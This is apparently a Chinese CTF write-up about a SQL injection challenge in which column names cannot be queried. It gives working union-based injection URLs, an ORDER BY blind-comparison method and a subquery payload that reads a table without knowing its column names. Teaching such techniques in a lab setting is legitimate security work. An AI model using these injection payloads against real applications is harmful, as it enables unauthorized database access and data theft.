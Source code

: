 ```yaml
---
title: "一道题引发的无列名注入"
date: 2019-08-22T20:41:24+08:00
lastmod: 2019-08-22T20:41:24+08:00
draft: false
tags: ['ctf']
categories: ['CTF笔记']
comment: true
---
```


@Syst1m的考核题

<!--more-->
题目地址 http://152.136.179.79:18084/ 传入id=3为flag的id。

常规联合查询注入 
```
http://152.136.179.79:18084/?id=3 union select 1,2,3
```
三个字段
```
http://152.136.179.79:18084/?id=3 union select 1,2,(select table_name from information_schema.tables where table_schema=database())
```
拿到flag所在的表，继续查列名
```
http://152.136.179.79:18084/?id=3 union select 1,2,(select column_name from information_schema.columns where table_name='this_1s_th3_fiag_tab13')
```
死活查不出来，应该是过滤了column关键字，没有列名怎么查出来数据呢？？？

有两种方法
1. order by盲注
2. 子查询

本地测试建表

![20190822205338](https://y4er.com/img/uploads/20190822205338.png)

![20190822205621](https://y4er.com/img/uploads/20190822205621.png)

# order by盲注

order by用于根据指定的列对结果集进行排序。一般上是从0-9a-z这样排序，不区分大小写。

先来本地测试一下

![20190822210044](https://y4er.com/img/uploads/20190822210044.png)

可以看到我们构造的数据排在了第一行

![20190822210124](https://y4er.com/img/uploads/20190822210124.png)

仍然在第一行

![20190822210155](https://y4er.com/img/uploads/20190822210155.png)

当拿'q'和'pass'做比较时，我们构造的数据被排在了第二行。由此可以来根据不同的回显来逐位判断。

拿我们这道题来说

![20190822210915](https://y4er.com/img/uploads/20190822210915.png)

1的时候我们的数据在前

![20190822210948](https://y4er.com/img/uploads/20190822210948.png)

2的时候原始数据在前，说明第一位是1

然后判断第二位

![20190822211104](https://y4er.com/img/uploads/20190822211104.png)

1a的时候我们的数据在前

![20190822211144](https://y4er.com/img/uploads/20190822211144.png)

1b的时候原始数据在前，说明第二位是1a

由此逐位判断。

# 子查询

在无列名的情况下，用子查询可以很简单的将数据跑出来。

子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询（inner query）语句的查询结果，可以为外层查询（outer query）语句提供查询条件。

![20190822214132](https://y4er.com/img/uploads/20190822214132.png)

**这个语句将列名转换为了1,2,3**，这个时候列名就已知了，我们可以用子查询将数据归并。

![20190822214824](https://y4er.com/img/uploads/20190822214824.png)

此时就能查出来数据了，然后我们再来看这个题。

我们已知了表名为`this_1s_th3_fiag_tab13`，但是不知道这个表有几个字段

![20190822220530](https://y4er.com/img/uploads/20190822220530.png)

可以用联合查询的方式来判断字段数。

查出数据

![20190822220706](https://y4er.com/img/uploads/20190822220706.png)

拿到我们这个题里来

![20190822220930](https://y4er.com/img/uploads/20190822220930.png)

payload

```
http://152.136.179.79:18084/?id=3 union select 1,2,x.2 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from this_1s_th3_fiag_tab13)x
```

子查询真是个好东西👍

# 写在文后

本文介绍了两种无列名注入的方式，很巧妙的在没有列名的情况下查出来数据，在实际利用中更推荐用子查询的方式，毕竟盲注有可能费力不讨好。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**